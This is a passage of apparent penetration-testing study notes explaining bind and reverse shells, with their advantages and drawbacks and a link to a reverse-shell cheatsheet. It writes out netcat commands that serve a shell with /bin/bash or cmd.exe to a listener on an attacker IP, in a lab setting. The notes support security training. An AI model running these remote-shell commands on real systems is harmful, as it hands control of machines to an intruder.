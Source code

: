 ![Bind Shell - Windows](.gitbook/assets/image-20230423215745094.png)

```bash
# Target Linux machine - Bind shell listener with /bin/bash
nc -nvlp 1234 -c /bin/bash

# Attacker Win machine
nc.exe -nv 10.10.24.2 1234
```

![Bind Shell - Linux](.gitbook/assets/image-20230423222515800.png)

### Reverse Shells

![Reverse Shell - geeksforgeeks.org](.gitbook/assets/Reverseshell-660x309.png)

🗒️ **Reverse Shell** - a remote shell where *the target connects to a listener running on the attacker's system* (**`e.g.`** Metasploit Meterpreter).

- *Reverse shells advantages*:
  - The connection can be initialized without `netcat` too
  - Outgoing traffic may not be blocked by firewalls

- *Reverse shells issues*:
  - used exploit have to know the attacker's IP
  - the attacker's IP can be logged as malicious or present in the exploit file

```bash
# Attacker Linux machine
nc -nvlp 1234

# Target Win machine
nc.exe -nv 10.10.18.3 1234 -e cmd.exe
```

![Reverse Shell - Win](.gitbook/assets/image-20230423225647628.png)

```bash
# Attacker Linux machine
nc -nvlp 1234

# Target Linux machine (localhost in this case)
nc -nv 127.0.0.1 1234 -e /bin/bash
```

![Reverse Shell - Linux](.gitbook/assets/image-20230423225954657.png)

#### Reverse Shell without Netcat

📌 [PayloadsAllTheThings - Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

- Examples of Reverse Shell with different code (bash, Python, Powershell, PHP, etc)

![](.gitbook/assets/image-20230423230818018.png)
